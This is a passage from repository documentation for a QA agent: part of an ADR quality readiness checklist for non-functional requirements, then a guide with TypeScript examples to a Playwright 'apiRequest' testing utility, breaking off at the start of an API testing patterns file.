| 1.3 | **State Control:** Do we have "Seeding APIs" or scripts to inject specific data states (e.g., "User with expired subscription") instantly? | Long setup times; inability to test edge cases | P0: Seed baseline data, P0: Inject edge case data states, P1: Cleanup after tests                       |
| 1.4 | **Sample Requests:** Are there valid and invalid cURL/JSON sample requests provided in the design doc for QA to build upon?                | Ambiguity on how to consume the service        | P1: Valid request succeeds, P1: Invalid request fails with clear error                                  |

**Common Gaps:**

- No mock endpoints for external services (Athena, Milvus, third-party APIs)
- Business logic tightly coupled to UI (requires E2E tests for everything)
- No seeding APIs (manual database setup required)
- ADR has architecture diagrams but no sample API requests

**Mitigation Examples:**

- 1.1 (Isolation): Provide mock endpoints, dependency injection, interface abstractions
- 1.2 (Headless): Expose all business logic via REST/GraphQL APIs
- 1.3 (State Control): Implement `/api/test-data` seeding endpoints (dev/staging only)
- 1.4 (Sample Requests): Add "Example API Calls" section to ADR with cURL commands

---

## 2. Test Data Strategy

**Question:** How do we fuel our tests safely?

| #   | Criterion                                                                                                                             | Risk if Unmet                                | Typical Test Scenarios (P0-P2)                                                                 |
| --- | ------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------- | ---------------------------------------------------------------------------------------------- |
| 2.1 | **Segregation:** Does the design support multi-tenancy or specific headers (e.g., x-test-user) to keep test data out of prod metrics? | Skewed business analytics; data pollution    | P0: Multi-tenant isolation (customer A ≠ customer B), P1: Test data excluded from prod metrics |
| 2.2 | **Generation:** Can we use synthetic data, or do we rely on scrubbing production data (GDPR/PII risk)?                                | Privacy violations; dependency on stale data | P0: Faker-based synthetic data, P1: No production data in tests                                |
| 2.3 | **Teardown:** Is there a mechanism to "reset" the environment or clean up data after destructive tests?                               | Environment rot; subsequent test failures    | P0: Automated cleanup after tests, P2: Environment reset script                                |

**Common Gaps:**

- No `customer_id` scoping in queries (cross-tenant data leakage risk)
- Reliance on production data dumps (GDPR/PII violations)
- No cleanup mechanism (tests leave data behind, polluting environment)

**Mitigation Examples:**

- 2.1 (Segregation): Enforce `customer_id` in all queries, add test-specific headers
- 2.2 (Generation): Use Faker library, create synthetic data generators, prohibit prod dumps
- 2.3 (Teardown): Auto-cleanup hooks in test framework, isolated test customer IDs

---

## 3. Scalability & Availability

**Question:** Can it grow, and will it stay up?

| #   | Criterion                                                                                                                   | Risk if Unmet                                     | Typical Test Scenarios (P0-P2)                                                                       |
| --- | --------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------- | ---------------------------------------------------------------------------------------------------- |
| 3.1 | **Statelessness:** Is the service stateless? If not, how is session state replicated across instances?                      | Inability to auto-scale horizontally              | P1: Service restart mid-request → no data loss, P2: Horizontal scaling under load                    |
| 3.2 | **Bottlenecks:** Have we identified the weakest link (e.g., database connections, API rate limits) under load?              | System crash during peak traffic                  | P2: Load test identifies bottleneck, P2: Connection pool exhaustion handled                          |
| 3.3 | **SLA Definitions:** What is the target Availability (e.g., 99.9%) and does the architecture support redundancy to meet it? | Breach of contract; customer churn                | P1: Availability target defined, P2: Redundancy validated (multi-region/zone)                        |
| 3.4 | **Circuit Breakers:** If a dependency fails, does this service fail fast or hang?                                           | Cascading failures taking down the whole platform | P1: Circuit breaker opens on 5 failures, P1: Auto-reset after recovery, P2: Timeout prevents hanging |

**Common Gaps:**

- Stateful session management (can't scale horizontally)
- No load testing, bottlenecks unknown
- SLA undefined or unrealistic (99.99% without redundancy)
- No circuit breakers (cascading failures)

**Mitigation Examples:**

- 3.1 (Statelessness): Externalize session to Redis/JWT, design for horizontal scaling
- 3.2 (Bottlenecks): Load test with k6, monitor connection pools, identify weak links
- 3.3 (SLA): Define realistic SLA (99.9% = 43 min/month downtime), add redundancy
- 3.4 (Circuit Breakers): Implement circuit breakers (Hystrix pattern), fail fast on errors

---

## 4. Disaster Recovery (DR)

**Question:** What happens when the worst-case scenario occurs?

| #   | Criterion                                                                                                            | Risk if Unmet                                  | Typical Test Scenarios (P0-P2)                                          |
| --- | -------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------- | ----------------------------------------------------------------------- |
| 4.1 | **RTO/RPO:** What is the Recovery Time Objective (how long to restore) and Recovery Point Objective (max data loss)? | Extended outages; data loss liability          | P2: RTO defined and tested, P2: RPO validated (backup frequency)        |
| 4.2 | **Failover:** Is region/zone failover automated or manual? Has it been practiced?                                    | "Heroics" required during outages; human error | P2: Automated failover works, P2: Manual failover documented and tested |
| 4.3 | **Backups:** Are backups immutable and tested for restoration integrity?                                             | Ransomware vulnerability; corrupted backups    | P2: Backup restore succeeds, P2: Backup immutability validated          |

**Common Gaps:**

- RTO/RPO undefined (no recovery plan)
- Failover never tested (manual process, prone to errors)
- Backups exist but restoration never validated (untested backups = no backups)

**Mitigation Examples:**

- 4.1 (RTO/RPO): Define RTO (e.g., 4 hours) and RPO (e.g., 1 hour), document recovery procedures
- 4.2 (Failover): Automate multi-region failover, practice failover drills quarterly
- 4.3 (Backups): Implement immutable backups (S3 versioning), test restore monthly

---

## 5. Security

**Question:** Is the design safe by default?

| #   | Criterion                                                                                                        | Risk if Unmet                            | Typical Test Scenarios (P0-P2)                                                                                   |
| --- | ---------------------------------------------------------------------------------------------------------------- | ---------------------------------------- | ---------------------------------------------------------------------------------------------------------------- |
| 5.1 | **AuthN/AuthZ:** Does it implement standard protocols (OAuth2/OIDC)? Are permissions granular (Least Privilege)? | Unauthorized access; data leaks          | P0: OAuth flow works, P0: Expired token rejected, P0: Insufficient permissions return 403, P1: Scope enforcement |
| 5.2 | **Encryption:** Is data encrypted at rest (DB) and in transit (TLS)?                                             | Compliance violations; data theft        | P1: Milvus data-at-rest encrypted, P1: TLS 1.2+ enforced, P2: Certificate rotation works                         |
| 5.3 | **Secrets:** Are API keys/passwords stored in a Vault (not in code or config files)?                             | Credentials leaked in git history        | P1: No hardcoded secrets in code, P1: Secrets loaded from AWS Secrets Manager                                    |
| 5.4 | **Input Validation:** Are inputs sanitized against Injection attacks (SQLi, XSS)?                                | System compromise via malicious payloads | P1: SQL injection sanitized, P1: XSS escaped, P2: Command injection prevented                                    |

**Common Gaps:**

- Weak authentication (no OAuth, hardcoded API keys)
- No encryption at rest (plaintext in database)
- Secrets in git (API keys, passwords in config files)
- No input validation (vulnerable to SQLi, XSS, command injection)

**Mitigation Examples:**

- 5.1 (AuthN/AuthZ): Implement OAuth 2.1/OIDC, enforce least privilege, validate scopes
- 5.2 (Encryption): Enable TDE (Transparent Data Encryption), enforce TLS 1.2+
- 5.3 (Secrets): Migrate to AWS Secrets Manager/Vault, scan git history for leaks
- 5.4 (Input Validation): Sanitize all inputs, use parameterized queries, escape outputs

---

## 6. Monitorability, Debuggability & Manageability

**Question:** Can we operate and fix this in production?

| #   | Criterion                                                                                            | Risk if Unmet                                      | Typical Test Scenarios (P0-P2)                                                                    |
| --- | ---------------------------------------------------------------------------------------------------- | -------------------------------------------------- | ------------------------------------------------------------------------------------------------- |
| 6.1 | **Tracing:** Does the service propagate W3C Trace Context / Correlation IDs for distributed tracing? | Impossible to debug errors across microservices    | P2: W3C Trace Context propagated (EventBridge → Lambda → Service), P2: Correlation ID in all logs |
| 6.2 | **Logs:** Can log levels (INFO vs DEBUG) be toggled dynamically without a redeploy?                  | Inability to diagnose issues in real-time          | P2: Log level toggle works without redeploy, P2: Logs structured (JSON format)                    |
| 6.3 | **Metrics:** Does it expose RED metrics (Rate, Errors, Duration) for Prometheus/Datadog?             | Flying blind regarding system health               | P2: /metrics endpoint exposes RED metrics, P2: Prometheus/Datadog scrapes successfully            |
| 6.4 | **Config:** Is configuration externalized? Can we change behavior without a code build?              | Rigid system; full deploys needed for minor tweaks | P2: Config change without code build, P2: Feature flags toggle behavior                           |

**Common Gaps:**

- No distributed tracing (can't debug across microservices)
- Static log levels (requires redeploy to enable DEBUG)
- No metrics endpoint (blind to system health)
- Configuration hardcoded (requires full deploy for minor changes)

**Mitigation Examples:**

- 6.1 (Tracing): Implement W3C Trace Context, add correlation IDs to all logs
- 6.2 (Logs): Use dynamic log levels (environment variable), structured logging (JSON)
- 6.3 (Metrics): Expose /metrics endpoint, track RED metrics (Rate, Errors, Duration)
- 6.4 (Config): Externalize config (AWS SSM/AppConfig), use feature flags (LaunchDarkly)

---

## 7. QoS (Quality of Service) & QoE (Quality of Experience)

**Question:** How does it perform, and how does it feel?

| #   | Criterion                                                                                            | Risk if Unmet                                          | Typical Test Scenarios (P0-P2)                                                                  |
| --- | ---------------------------------------------------------------------------------------------------- | ------------------------------------------------------ | ----------------------------------------------------------------------------------------------- |
| 7.1 | **Latency (QoS):** What are the P95 and P99 latency targets?                                         | Slow API responses affecting throughput                | P3: P95 latency <Xs (load test), P3: P99 latency <Ys (load test)                                |
| 7.2 | **Throttling (QoS):** Is there Rate Limiting to prevent "noisy neighbors" or DDoS?                   | Service degradation for all users due to one bad actor | P2: Rate limiting enforced, P2: 429 returned when limit exceeded                                |
| 7.3 | **Perceived Performance (QoE):** Does the UI show optimistic updates or skeletons while loading?     | App feels sluggish to the user                         | P2: Skeleton/spinner shown while loading (E2E), P2: Optimistic updates (E2E)                    |
| 7.4 | **Degradation (QoE):** If the service is slow, does it show a friendly message or a raw stack trace? | Poor user trust; frustration                           | P2: Friendly error message shown (not stack trace), P1: Error boundary catches exceptions (E2E) |

**Common Gaps:**

- Latency targets undefined (no SLOs)
- No rate limiting (vulnerable to DDoS, noisy neighbors)
- Poor perceived performance (blank screen while loading)
- Raw error messages (stack traces exposed to users)

**Mitigation Examples:**

- 7.1 (Latency): Define SLOs (P95 <2s, P99 <5s), load test to validate
- 7.2 (Throttling): Implement rate limiting (per-user, per-IP), return 429 with Retry-After
- 7.3 (Perceived Performance): Add skeleton screens, optimistic updates, progressive loading
- 7.4 (Degradation): Implement error boundaries, show friendly messages, log stack traces server-side

---

## 8. Deployability

**Question:** How easily can we ship this?

| #   | Criterion                                                                                  | Risk if Unmet                                          | Typical Test Scenarios (P0-P2)                                                 |
| --- | ------------------------------------------------------------------------------------------ | ------------------------------------------------------ | ------------------------------------------------------------------------------ |
| 8.1 | **Zero Downtime:** Does the design support Blue/Green or Canary deployments?               | Maintenance windows required (downtime)                | P2: Blue/Green deployment works, P2: Canary deployment gradual rollout         |
| 8.2 | **Backward Compatibility:** Can we deploy the DB changes separately from the Code changes? | "Lock-step" deployments; high risk of breaking changes | P2: DB migration before code deploy, P2: Code handles old and new schema       |
| 8.3 | **Rollback:** Is there an automated rollback trigger if Health Checks fail post-deploy?    | Prolonged outages after a bad deploy                   | P2: Health check fails → automated rollback, P2: Rollback completes within RTO |

**Common Gaps:**

- No zero-downtime strategy (requires maintenance window)
- Tight coupling between DB and code (lock-step deployments)
- No automated rollback (manual intervention required)

**Mitigation Examples:**

- 8.1 (Zero Downtime): Implement Blue/Green or Canary deployments, use feature flags
- 8.2 (Backward Compatibility): Separate DB migrations from code deploys, support N-1 schema
- 8.3 (Rollback): Automate rollback on health check failures, test rollback procedures

---

## Usage in Test Design Workflow

**System-Level Mode (Phase 3):**

**In test-design-architecture.md:**

- Add "NFR Testability Requirements" section after ASRs
- Use 8 categories with checkboxes (29 criteria)
- For each criterion: Status (⬜ Not Assessed, ⚠️ Gap, ✅ Covered), Gap description, Risk if unmet
- Example:

```markdown
## NFR Testability Requirements

**Based on ADR Quality Readiness Checklist**

### 1. Testability & Automation

Can we verify this effectively without manual toil?

| Criterion                                                        | Status          | Gap/Requirement                      | Risk if Unmet                           |
| ---------------------------------------------------------------- | --------------- | ------------------------------------ | --------------------------------------- |
| ⬜ Isolation: Can service be tested with downstream deps mocked? | ⚠️ Gap          | No mock endpoints for Athena queries | Flaky tests; can't test in isolation    |
| ⬜ Headless: 100% business logic accessible via API?             | ✅ Covered      | All MCP tools are REST APIs          | N/A                                     |
| ⬜ State Control: Seeding APIs to inject data states?            | ⚠️ Gap          | Need `/api/test-data` endpoints      | Long setup times; can't test edge cases |
| ⬜ Sample Requests: Valid/invalid cURL/JSON samples provided?    | ⬜ Not Assessed | Pending ADR Tool schemas finalized   | Ambiguity on how to consume service     |

**Actions Required:**

- [ ] Backend: Implement mock endpoints for Athena (R-002 blocker)
- [ ] Backend: Implement `/api/test-data` seeding APIs (R-002 blocker)
- [ ] PM: Finalize ADR Tool schemas with sample requests (Q4)
```

**In test-design-qa.md:**

- Map each criterion to test scenarios
- Add "NFR Test Coverage Plan" section with P0/P1/P2 priority for each category
- Reference Architecture doc gaps
- Example:

```markdown
## NFR Test Coverage Plan

**Based on ADR Quality Readiness Checklist**

### 1. Testability & Automation (4 criteria)

**Prerequisites from Architecture doc:**

- [ ] R-002: Test data seeding APIs implemented (blocker)
- [ ] Mock endpoints available for Athena queries

| Criterion                       | Test Scenarios                                                       | Priority | Test Count | Owner            |
| ------------------------------- | -------------------------------------------------------------------- | -------- | ---------- | ---------------- |
| Isolation: Mock downstream deps | Mock Athena queries, Mock Milvus, Service runs isolated              | P1       | 3          | Backend Dev + QA |
| Headless: API-accessible logic  | All MCP tools callable via REST, No UI dependency for business logic | P0       | 5          | QA               |
| State Control: Seeding APIs     | Create test customer, Seed 1000 transactions, Inject edge cases      | P0       | 4          | QA               |
| Sample Requests: cURL examples  | Valid request succeeds, Invalid request fails with clear error       | P1       | 2          | QA               |

**Detailed Test Scenarios:**

- [ ] Isolation: Service runs with Athena mocked (returns fixture data)
- [ ] Isolation: Service runs with Milvus mocked (returns ANN fixture)
- [ ] State Control: Seed test customer with 1000 baseline transactions
- [ ] State Control: Inject edge case (expired subscription user)
```

---

## Usage in NFR Assessment Workflow

**Output Structure:**

```markdown
# NFR Assessment: {Feature Name}

**Based on ADR Quality Readiness Checklist (8 categories, 29 criteria)**

## Assessment Summary

| Category                      | Status      | Criteria Met | Evidence                               | Next Action          |
| ----------------------------- | ----------- | ------------ | -------------------------------------- | -------------------- |
| 1. Testability & Automation   | ⚠️ CONCERNS | 2/4          | Mock endpoints missing                 | Implement R-002      |
| 2. Test Data Strategy         | ✅ PASS     | 3/3          | Faker + auto-cleanup                   | None                 |
| 3. Scalability & Availability | ⚠️ CONCERNS | 1/4          | SLA undefined                          | Define SLA           |
| 4. Disaster Recovery          | ⚠️ CONCERNS | 0/3          | No RTO/RPO defined                     | Define recovery plan |
| 5. Security                   | ✅ PASS     | 4/4          | OAuth 2.1 + TLS + Vault + Sanitization | None                 |
| 6. Monitorability             | ⚠️ CONCERNS | 2/4          | No metrics endpoint                    | Add /metrics         |
| 7. QoS & QoE                  | ⚠️ CONCERNS | 1/4          | Latency targets undefined              | Define SLOs          |
| 8. Deployability              | ✅ PASS     | 3/3          | Blue/Green + DB migrations + Rollback  | None                 |

**Overall:** 14/29 criteria met (48%) → ⚠️ CONCERNS

**Gate Decision:** CONCERNS (requires mitigation plan before GA)

---

## Detailed Assessment

### 1. Testability & Automation (2/4 criteria met)

**Question:** Can we verify this effectively without manual toil?

| Criterion                    | Status | Evidence                 | Gap/Action                 |
| ---------------------------- | ------ | ------------------------ | -------------------------- |
| ⬜ Isolation: Mock deps      | ⚠️     | No Athena mock           | Implement mock endpoints   |
| ⬜ Headless: API-accessible  | ✅     | All MCP tools are REST   | N/A                        |
| ⬜ State Control: Seeding    | ⚠️     | `/api/test-data` pending | Pre-implementation blocker |
| ⬜ Sample Requests: Examples | ⬜     | Pending schemas          | Finalize ADR Tools         |

**Overall Status:** ⚠️ CONCERNS (2/4 criteria met)

**Next Actions:**

- [ ] Backend: Implement Athena mock endpoints (pre-implementation)
- [ ] Backend: Implement `/api/test-data` (pre-implementation)
- [ ] PM: Finalize sample requests (implementation phase)

{Repeat for all 8 categories}
```

---

## Benefits

**For test-design workflow:**

- ✅ Standard NFR structure (same 8 categories every project)
- ✅ Clear testability requirements for Architecture team
- ✅ Direct mapping: criterion → requirement → test scenario
- ✅ Comprehensive coverage (29 criteria = no blind spots)

**For nfr-assess workflow:**

- ✅ Structured assessment (not ad-hoc)
- ✅ Quantifiable (X/29 criteria met)
- ✅ Evidence-based (each criterion has evidence field)
- ✅ Actionable (gaps → next actions with owners)

**For Architecture teams:**

- ✅ Clear checklist (29 yes/no questions)
- ✅ Risk-aware (each criterion has "risk if unmet")
- ✅ Scoped work (only implement what's needed, not everything)

**For QA teams:**

- ✅ Comprehensive test coverage (29 criteria → test scenarios)
- ✅ Clear priorities (P0 for security/isolation, P1 for monitoring, etc.)
- ✅ No ambiguity (each criterion has specific test scenarios)
```

## File: `src/agents/bmad-tea/resources/knowledge/api-request.md`
```markdown
# API Request Utility

## Principle

Use typed HTTP client with built-in schema validation and automatic retry for server errors. The utility handles URL resolution, header management, response parsing, and single-line response validation with proper TypeScript support. **Works without a browser** - ideal for pure API/service testing.

## Rationale

Vanilla Playwright's request API requires boilerplate for common patterns:

- Manual JSON parsing (`await response.json()`)
- Repetitive status code checking
- No built-in retry logic for transient failures
- No schema validation
- Complex URL construction

The `apiRequest` utility provides:

- **Automatic JSON parsing**: Response body pre-parsed
- **Built-in retry**: 5xx errors retry with exponential backoff
- **Schema validation**: Single-line validation (JSON Schema, Zod, OpenAPI)
- **URL resolution**: Four-tier strategy (explicit > config > Playwright > direct)
- **TypeScript generics**: Type-safe response bodies
- **No browser required**: Pure API testing without browser overhead

## Pattern Examples

### Example 1: Basic API Request

**Context**: Making authenticated API requests with automatic retry and type safety.

**Implementation**:

```typescript
import { test } from '@seontechnologies/playwright-utils/api-request/fixtures';

test('should fetch user data', async ({ apiRequest }) => {
  const { status, body } = await apiRequest<User>({
    method: 'GET',
    path: '/api/users/123',
    headers: { Authorization: 'Bearer token' },
  });

  expect(status).toBe(200);
  expect(body.name).toBe('John Doe'); // TypeScript knows body is User
});
```

**Key Points**:

- Generic type `<User>` provides TypeScript autocomplete for `body`
- Status and body destructured from response
- Headers passed as object
- Automatic retry for 5xx errors (configurable)

### Example 2: Schema Validation (Single Line)

**Context**: Validate API responses match expected schema with single-line syntax.

**Implementation**:

```typescript
import { test } from '@seontechnologies/playwright-utils/api-request/fixtures';
import { z } from 'zod';

// JSON Schema validation
test('should validate response schema (JSON Schema)', async ({ apiRequest }) => {
  const { status, body } = await apiRequest({
    method: 'GET',
    path: '/api/users/123',
    validateSchema: {
      type: 'object',
      required: ['id', 'name', 'email'],
      properties: {
        id: { type: 'string' },
        name: { type: 'string' },
        email: { type: 'string', format: 'email' },
      },
    },
  });
  // Throws if schema validation fails
  expect(status).toBe(200);
});

// Zod schema validation
const UserSchema = z.object({
  id: z.string(),
  name: z.string(),
  email: z.string().email(),
});

test('should validate response schema (Zod)', async ({ apiRequest }) => {
  const { status, body } = await apiRequest({
    method: 'GET',
    path: '/api/users/123',
    validateSchema: UserSchema,
  });
  // Response body is type-safe AND validated
  expect(status).toBe(200);
  expect(body.email).toContain('@');
});
```

**Key Points**:

- Single `validateSchema` parameter
- Supports JSON Schema, Zod, YAML files, OpenAPI specs
- Throws on validation failure with detailed errors
- Zero boilerplate validation code

### Example 3: POST with Body and Retry Configuration

**Context**: Creating resources with custom retry behavior for error testing.

**Implementation**:

```typescript
test('should create user', async ({ apiRequest }) => {
  const newUser = {
    name: 'Jane Doe',
    email: 'jane@example.com',
  };

  const { status, body } = await apiRequest({
    method: 'POST',
    path: '/api/users',
    body: newUser, // Automatically sent as JSON
    headers: { Authorization: 'Bearer token' },
  });

  expect(status).toBe(201);
  expect(body.id).toBeDefined();
});

// Disable retry for error testing
test('should handle 500 errors', async ({ apiRequest }) => {
  await expect(
    apiRequest({
      method: 'GET',
      path: '/api/error',
      retryConfig: { maxRetries: 0 }, // Disable retry
    }),
  ).rejects.toThrow('Request failed with status 500');
});
```

**Key Points**:

- `body` parameter auto-serializes to JSON
- Default retry: 5xx errors, 3 retries, exponential backoff
- Disable retry with `retryConfig: { maxRetries: 0 }`
- Only 5xx errors retry (4xx errors fail immediately)

### Example 4: URL Resolution Strategy

**Context**: Flexible URL handling for different environments and test contexts.

**Implementation**:

```typescript
// Strategy 1: Explicit baseUrl (highest priority)
await apiRequest({
  method: 'GET',
  path: '/users',
  baseUrl: 'https://api.example.com', // Uses https://api.example.com/users
});

// Strategy 2: Config baseURL (from fixture)
import { test } from '@seontechnologies/playwright-utils/api-request/fixtures';

test.use({ configBaseUrl: 'https://staging-api.example.com' });

test('uses config baseURL', async ({ apiRequest }) => {
  await apiRequest({
    method: 'GET',
    path: '/users', // Uses https://staging-api.example.com/users
  });
});

// Strategy 3: Playwright baseURL (from playwright.config.ts)
// playwright.config.ts
export default defineConfig({
  use: {
    baseURL: 'https://api.example.com',
  },
});

test('uses Playwright baseURL', async ({ apiRequest }) => {
  await apiRequest({
    method: 'GET',
    path: '/users', // Uses https://api.example.com/users
  });
});

// Strategy 4: Direct path (full URL)
await apiRequest({
  method: 'GET',
  path: 'https://api.example.com/users', // Full URL works too
});
```

**Key Points**:

- Four-tier resolution: explicit > config > Playwright > direct
- Trailing slashes normalized automatically
- Environment-specific baseUrl easy to configure

### Example 5: Integration with Recurse (Polling)

**Context**: Waiting for async operations to complete (background jobs, eventual consistency).

**Implementation**:

```typescript
import { test } from '@seontechnologies/playwright-utils/fixtures';

test('should poll until job completes', async ({ apiRequest, recurse }) => {
  // Create job
  const { body } = await apiRequest({
    method: 'POST',
    path: '/api/jobs',
    body: { type: 'export' },
  });

  const jobId = body.id;

  // Poll until ready
  const completedJob = await recurse(
    () => apiRequest({ method: 'GET', path: `/api/jobs/${jobId}` }),
    (response) => response.body.status === 'completed',
    { timeout: 60000, interval: 2000 },
  );

  expect(completedJob.body.result).toBeDefined();
});
```

**Key Points**:

- `apiRequest` returns full response object
- `recurse` polls until predicate returns true
- Composable utilities work together seamlessly

### Example 6: Microservice Testing (Multiple Services)

**Context**: Test interactions between microservices without a browser.

**Implementation**:

```typescript
import { test, expect } from '@seontechnologies/playwright-utils/fixtures';

const USER_SERVICE = process.env.USER_SERVICE_URL || 'http://localhost:3001';
const ORDER_SERVICE = process.env.ORDER_SERVICE_URL || 'http://localhost:3002';

test.describe('Microservice Integration', () => {
  test('should validate cross-service user lookup', async ({ apiRequest }) => {
    // Create user in user-service
    const { body: user } = await apiRequest({
      method: 'POST',
      path: '/api/users',
      baseUrl: USER_SERVICE,
      body: { name: 'Test User', email: 'test@example.com' },
    });

    // Create order in order-service (validates user via user-service)
    const { status, body: order } = await apiRequest({
      method: 'POST',
      path: '/api/orders',
      baseUrl: ORDER_SERVICE,
      body: {
        userId: user.id,
        items: [{ productId: 'prod-1', quantity: 2 }],
      },
    });

    expect(status).toBe(201);
    expect(order.userId).toBe(user.id);
  });

  test('should reject order for invalid user', async ({ apiRequest }) => {
    const { status, body } = await apiRequest({
      method: 'POST',
      path: '/api/orders',
      baseUrl: ORDER_SERVICE,
      body: {
        userId: 'non-existent-user',
        items: [{ productId: 'prod-1', quantity: 1 }],
      },
    });

    expect(status).toBe(400);
    expect(body.code).toBe('INVALID_USER');
  });
});
```

**Key Points**:

- Test multiple services without browser
- Use `baseUrl` to target different services
- Validate cross-service communication
- Pure API testing - fast and reliable

### Example 7: GraphQL API Testing

**Context**: Test GraphQL endpoints with queries and mutations.

**Implementation**:

```typescript
test.describe('GraphQL API', () => {
  const GRAPHQL_ENDPOINT = '/graphql';

  test('should query users via GraphQL', async ({ apiRequest }) => {
    const query = `
      query GetUsers($limit: Int) {
        users(limit: $limit) {
          id
          name
          email
        }
      }
    `;

    const { status, body } = await apiRequest({
      method: 'POST',
      path: GRAPHQL_ENDPOINT,
      body: {
        query,
        variables: { limit: 10 },
      },
    });

    expect(status).toBe(200);
    expect(body.errors).toBeUndefined();
    expect(body.data.users).toHaveLength(10);
  });

  test('should create user via mutation', async ({ apiRequest }) => {
    const mutation = `
      mutation CreateUser($input: CreateUserInput!) {
        createUser(input: $input) {
          id
          name
        }
      }
    `;

    const { status, body } = await apiRequest({
      method: 'POST',
      path: GRAPHQL_ENDPOINT,
      body: {
        query: mutation,
        variables: {
          input: { name: 'GraphQL User', email: 'gql@example.com' },
        },
      },
    });

    expect(status).toBe(200);
    expect(body.data.createUser.id).toBeDefined();
  });
});
```

**Key Points**:

- GraphQL via POST request
- Variables in request body
- Check `body.errors` for GraphQL errors (not status code)
- Works for queries and mutations

### Example 8: Operation-Based Overload (OpenAPI / Code Generators)

**Context**: When using a code generator (orval, openapi-generator, custom scripts) that produces typed operation definitions from an OpenAPI spec, pass the operation object directly to `apiRequest`. This eliminates manual `method`/`path` extraction and `typeof` assertions while preserving full type inference for request body, response, and query parameters. Available since v3.14.0.

**Implementation**:

```typescript
// Generated operation definition — structural typing, no import from playwright-utils needed
// type OperationShape = { path: string; method: 'POST'|'GET'|'PUT'|'DELETE'|'PATCH'|'HEAD'; response: unknown; request: unknown; query?: unknown }

import { test, expect } from '@seontechnologies/playwright-utils/api-request/fixtures';

// --- Basic usage: operation replaces method + path ---
test('should upsert person via operation overload', async ({ apiRequest }) => {
  const { status, body } = await apiRequest({
    operation: upsertPersonv2({ customerId }),
    headers: getHeaders(customerId),
    body: personInput, // compile-time typed as Schemas.PersonInput
  });

  expect(status).toBe(200);
  expect(body.id).toBeDefined(); // body typed as Schemas.Person
});

// --- Typed query parameters (replaces string concatenation) ---
test('should list people with typed query', async ({ apiRequest }) => {
  const { body } = await apiRequest({
    operation: getPeoplev2({ customerId }),
    headers: getHeaders(customerId),
    query: { page: 0, page_size: 5 }, // typed from operation's query definition
  });

  expect(body.items).toHaveLength(5);
});

// --- Params escape hatch (pre-formatted query strings) ---
test('should fetch billing history with raw params', async ({ apiRequest }) => {
  const { body } = await apiRequest({
    operation: getBillingHistoryv2({ customerId }),
    headers: getHeaders(customerId),
    params: {
      'filters[start_date]': getThisMonthTimestamp(),
      'filters[date_type]': 'MONTH',
    },
  });

  expect(body.entries.length).toBeGreaterThan(0);
});

// --- Works with recurse (polling) ---
test('should poll until person is reviewed', async ({ apiRequest, recurse }) => {
  await recurse(
    async () =>
      apiRequest({
        operation: getPersonv2({ customerId, hash }),
        headers: getHeaders(customerId),
      }),
    (res) => {
      expect(res.status).toBe(200);
      expect(res.body.status).toBe('REVIEWED');
    },
    { timeout: 30000, interval: 1000 },
  );
});

// --- Schema validation chains work identically ---
test('should create movie with schema validation', async ({ apiRequest }) => {
  const { body } = await apiRequest({
    operation: createMovieOp,
    headers: commonHeaders(authToken),
    body: movie,
  }).validateSchema(CreateMovieResponseSchema, {
    shape: { status: 200, data: { name: movie.name } },
  });

  expect(body.data.id).toBeDefined();
});
```

**Key Points**:

- Pass `operation` instead of `method` + `path` — mutually exclusive at compile time
- Response body, request body, and query types inferred from operation definition
- Uses structural typing (duck typing) — works with any code generator producing `{ path, method, response, request, query? }`
- `query` field auto-serializes to bracket notation (`filters[type]=pep`, `ids[0]=10`)
- `params` escape hatch for pre-formatted strings — wins over `query` on conflict
- Fully composable with `recurse`, `validateSchema`, and all existing features
- `response`/`request`/`query` on the operation are type-level only — runtime never reads their values

## Comparison with Vanilla Playwright

| Vanilla Playwright                             | playwright-utils apiRequest                                                        |
| ---------------------------------------------- | ---------------------------------------------------------------------------------- |
| `const resp = await request.get('/api/users')` | `const { status, body } = await apiRequest({ method: 'GET', path: '/api/users' })` |
| `const body = await resp.json()`               | Response already parsed                                                            |
| `expect(resp.ok()).toBeTruthy()`               | Status code directly accessible                                                    |
| No retry logic                                 | Auto-retry 5xx errors with backoff                                                 |
| No schema validation                           | Built-in multi-format validation                                                   |
| Manual error handling                          | Descriptive error messages                                                         |

## When to Use

**Use apiRequest for:**

- ✅ Pure API/service testing (no browser needed)
- ✅ Microservice integration testing
- ✅ GraphQL API testing
- ✅ Schema validation needs
- ✅ Tests requiring retry logic
- ✅ Background API calls in UI tests
- ✅ Contract testing support
- ✅ Type-safe API testing with OpenAPI-generated operations (v3.14.0+)

**Stick with vanilla Playwright for:**

- Simple one-off requests where utility overhead isn't worth it
- Testing Playwright's native features specifically
- Legacy tests where migration isn't justified

## Related Fragments

- `api-testing-patterns.md` - Comprehensive pure API testing patterns
- `overview.md` - Installation and design principles
- `auth-session.md` - Authentication token management
- `recurse.md` - Polling for async operations
- `fixtures-composition.md` - Combining utilities with mergeTests
- `log.md` - Logging API requests
- `contract-testing.md` - Pact contract testing

## Anti-Patterns

**❌ Ignoring retry failures:**

```typescript
try {
  await apiRequest({ method: 'GET', path: '/api/unstable' });
} catch {
  // Silent failure - loses retry information
}
```

**✅ Let retries happen, handle final failure:**

```typescript
await expect(apiRequest({ method: 'GET', path: '/api/unstable' })).rejects.toThrow(); // Retries happen automatically, then final error caught
```

**❌ Disabling TypeScript benefits:**

```typescript
const response: any = await apiRequest({ method: 'GET', path: '/users' });
```

**✅ Use generic types:**

```typescript
const { body } = await apiRequest<User[]>({ method: 'GET', path: '/users' });
// body is typed as User[]
```

**❌ Mixing operation overload with explicit generics:**

```typescript
// Don't pass a generic when using operation — types are inferred from the operation
const { body } = await apiRequest<MyType>({
  operation: getPersonv2({ customerId }),
  headers: getHeaders(customerId),
});
```

**✅ Let the operation infer the types:**

```typescript
const { body } = await apiRequest({
  operation: getPersonv2({ customerId }),
  headers: getHeaders(customerId),
});
// body type inferred from operation.response
```

**❌ Mixing operation with method/path:**

```typescript
// Compile error — operation and method/path are mutually exclusive
await apiRequest({
  operation: getPersonv2({ customerId }),
  method: 'GET', // Error: method?: never
  path: '/api/person', // Error: path?: never
});
```
```

## File: `src/agents/bmad-tea/resources/knowledge/api-testing-patterns.md`
```markdown
# API Testing Patterns

## Principle

Test APIs and backend services directly without browser overhead. Use Playwright's `request` context for HTTP operations, `apiRequest` utility for enhanced features, and `recurse` for async operations. Pure API tests run faster, are more stable, and provide better coverage for service-layer logic.

## Rationale

Many teams over-rely on E2E/browser tests when API tests would be more appropriate:

- **Slower feedback**: Browser tests take seconds, API tests take milliseconds
- **More brittle**: UI changes break tests even when API works correctly
